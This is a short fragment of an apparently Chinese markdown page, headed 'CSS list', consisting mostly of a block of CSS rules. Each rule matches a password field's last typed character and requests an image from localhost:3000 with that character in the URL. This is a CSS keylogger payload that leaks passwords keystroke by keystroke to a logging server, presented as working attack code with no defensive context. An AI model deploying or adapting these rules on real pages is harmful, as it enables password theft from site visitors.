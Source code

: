 > ![img](./image/52c93fc40dfd9ca4267e9f6123df49bad6470da7.png@942w_405h_progressive.webp)
>
> ![img](./image/494954a0205a138b8b4d1e7341524e0f1424c3fa.png@942w_506h_progressive.webp)
>
> #### css列表
>
> ```css
> input[type="password"][value$=" "] { background-image: url("http://localhost:3000/+"); }
> input[type="password"][value$="!"] { background-image: url("http://localhost:3000/%21"); }
> input[type="password"][value$="\""] { background-image: url("http://localhost:3000/%22"); }
> input[type="password"][value$="#"] { background-image: url("http://localhost:3000/%23"); }
> input[type="password"][value$="$"] { background-image: url("http://localhost:3000/%24"); }
> input[type="password"][value$="%"] { background-image: url("http://localhost:3000/%25"); }
> input[type="password"][value$="&"] { background-image: url("http://localhost:3000/%26"); }
> input[type="password"][value$="'"] { background-image: url("http://localhost:3000/%27"); }
> input[type="password"][value$="("] { background-image: url("http://localhost:3000/%28"); }
> input[type="password"][value$=")"] { background-image: url("http://localhost:3000/%29"); }
> input[type="password"][value$="*"] { background-image: url("http://localhost:3000/%2A"); }
> input[type="password"][value$="+"] { background-image: url("http://localhost:3000/%2B"); }
> input[type="password"][value$=","] { background-image: url("http://localhost:3000/%2C"); }
> input[type="password"][value$="-"] { background-image: url("http://localhost:3000/-"); }